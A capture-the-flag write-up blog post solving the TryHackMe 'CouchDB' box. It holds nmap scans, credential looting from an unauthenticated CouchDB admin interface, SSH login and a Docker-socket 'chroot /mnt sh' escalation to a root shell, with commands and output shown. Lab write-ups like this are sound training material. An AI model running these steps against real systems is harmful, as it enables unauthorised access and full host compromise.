 ```yaml
---
layout: post
title: CouchDB TryHackMe writeup
subtitle: This is an easy box on TryHackme website.
tags: [writeup, tryhackme]
comments: true
---
```


This is a easy box with half guided, let's dig in
# Eumeration
## Scanning
Let's start by a normal scan by nmap
```
nmap -p- -v <ip>

...
Discovered open port 22/tcp on 10.10.253.5
...
Discovered open port 5984/tcp on 10.10.253.5
...
```
Now we know there are 2 port is now opened and that is the answer for question 1 (2) and question 3 (5984).
Now start scanning for what service is running on thesse 2 boxes
```
nmap -A -p 22,5984 10.10.253.5
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%)
```

Now we has know 2 information:
- SSH service is running on port 22
- CouchDB is running on port 5984

## Information Gathering
Let's access to browser on port 5984 and see what we can find
```
curl http://10.10.253.5:5984/
{"couchdb":"Welcome","uuid":"ef680bb740692240059420b2c17db8f3","version":"1.6.1","vendor":{"version":"16.04","name":"Ubuntu"}}
```
We get the reponse from the server. So we got the version of the CouchDB, as well as the answer for question 4.  
At this state, you can use `gobuster` to brute force the directory but it is not a good idea. Another option is we can go on the internet and find and well-organized documentation for CouchDB here: `https://docs.couchdb.org/en/stable/intro/tour.html`  
Here, we can find interesting url:
- `\_all_dbs`: it will return list of all databases
- `\_utils`: allow us to access the interface for the admin

I will try `\_utils` first
![alt text](/assets/img/tryhackme/couchDB/browser.png)
And now we find out there are a juicy database name `secret`, lets try to access it and ... booyah
`passwordbackup   atena:t4qfzcc4qN##`.
We find out a credential and I guess that is the credential for the SSH
## Exploit
I try to access SSH with our gathered credential  
`ssh atena@<ip>`  
And now we are the user `atena`. Lets find the way to root. First I try find the sudo right of `atena` user
```
atena@ubuntu:~$ sudo -l
[sudo] password for atena: 
Sorry, user atena may not run sudo on ubuntu.
```
So atena don't have any sudo right, let find another way. After a while, I find interesting information in `.bash_history`
```
cat ~/.bash_history
...
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
...
```
So that mean atean can access to docker on port 2375. I search docker on `GTFObin` and found out that we can spawn root shell using that command [here](https://gtfobins.github.io/gtfobins/docker/):  
`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`  
Let's try that on our command:
```
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt --rm -it alpine chroot /mnt sh
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
THM{####################}
```
And we got to root.

Thanks for reading
